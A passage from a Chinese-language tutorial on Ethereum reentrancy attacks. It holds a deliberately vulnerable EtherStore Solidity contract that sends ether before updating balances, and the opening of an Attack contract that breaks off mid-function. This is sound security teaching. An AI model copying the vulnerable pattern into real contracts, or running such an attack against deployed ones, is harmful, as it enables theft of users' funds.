 
## 重入漏洞

以太坊智能合约的特点之一是能够调用和利用其他外部合约的代码。合约通常也处理Ether，因此通常会将Ether发送给各种外部用户地址。调用外部合约或将以太网发送到地址的操作需要合约提交外部调用。这些外部调用可能被攻击者劫持，迫使合约执行进一步的代码（即通过回退函数），包括回调自身。因此代码执行“ 重新进入 ”合约。这种攻击被用于臭名昭着的DAO攻击。

有关重入攻击的进一步阅读，请参阅[重入式对智能合约](https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4)和[Consensus - 以太坊智能合约最佳实践](https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert)。

### 漏洞

当合约将ether发送到未知地址时，可能会发生此攻击。攻击者可以在[fallback函数](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=fallback#fallback-function)中的外部地址处构建一个包含恶意代码的合约。因此，当合约向此地址发送ether时，它将调用恶意代码。通常，恶意代码在易受攻击的合约上执行一项功能，执行开发人员不希望的操作。“重入”这个名称来源于外部恶意合约回复了易受攻击合约的功能，并在易受攻击的合约的任意位置“ 重新输入”了代码执行。

为了澄清这一点，请考虑简单易受伤害的合约，该合约充当以太坊保险库，允许存款人每周只提取1个Ether。

EtherStore.sol：

```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```

该合约有两个公共职能。`depositFunds()`和`withdrawFunds()`。该`depositFunds()`功能只是增加发件人余额。该`withdrawFunds()`功能允许发件人指定要撤回的wei的数量。如果所要求的退出金额小于1Ether并且在上周没有发生撤回，它才会成功。还是？...

该漏洞出现在[17]行，我们向用户发送他们所要求的以太数量。考虑一个恶意攻击者创建下列合约，

Attack.sol：

```solidity
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialise the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }
  
  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
```